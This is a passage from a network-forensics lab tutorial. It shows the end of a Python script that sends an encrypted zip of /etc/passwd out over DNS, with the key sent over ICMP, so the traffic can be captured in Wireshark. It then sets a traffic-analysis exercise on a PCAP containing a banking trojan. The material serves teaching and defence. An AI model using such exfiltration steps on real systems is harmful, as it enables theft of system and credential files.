 ```python
    f = open('passwd.zip','rb')
    enc_archive = f.read()
    f.close()
   
    ping_exf(key_archive)
    dns_exf(enc_archive)
```

This script will convert a file to base64, then send it to fictitious subdomains. Just before, a string in hex is sent by ICMP. As part of our TP, I propose you to make an encrypted zip archive and send it by DNS, the key would be sent by ICMP.

```bash
$ zip -e passwd.zip /etc/passwd
Enter password: [Enter your password]
```

It is now time to run Wireshark and the exfil_gen.py script. When the script is completed, then we can stop Wireshark capture and save the traffic into a PCAP file.

## Trojan horse

In this practical exercise, it will not be a CTF challenge task. It will be a real forensic case, with a real bad malware inside it. __Then be careful with this PCAP, it contains a banking trojan__.

### Statement

The PCAP file can be download here:

|Filename|Hash|Download link|
|--------|----|-------------|
|2018-11-13-traffic-analysis-exercise.pcap|221168dc0865c145fe977b2c373022f3|https://tinyurl.com/TP-malicious|

This practical exercise comes from: https://www.malware-traffic-analysis.net/2018/11/13/index.html

And here is the questions to answer:

* What was the date and time the malicious traffic started?
* What is the MAC address of the infected Windows host?
* What is the host name of the infected Windows host?
* What is the user account name used on the infected Windows host?
* What URL in the pcap returned a Windows executable file?
* What is the size of the Windows executable file from that URL?
* What is the SHA256 hash of the Windows executable file from that URL?
* What type of malware is the Windows executable returned from that URL?

### Resolution

You can find the official correction here, the password of the archive is "__infected__" : https://www.malware-traffic-analysis.net/2018/11/13/2018-11-13-traffic-analysis-exercise-answers.pdf.zip

#### What URL in the pcap returned a Windows executable file?

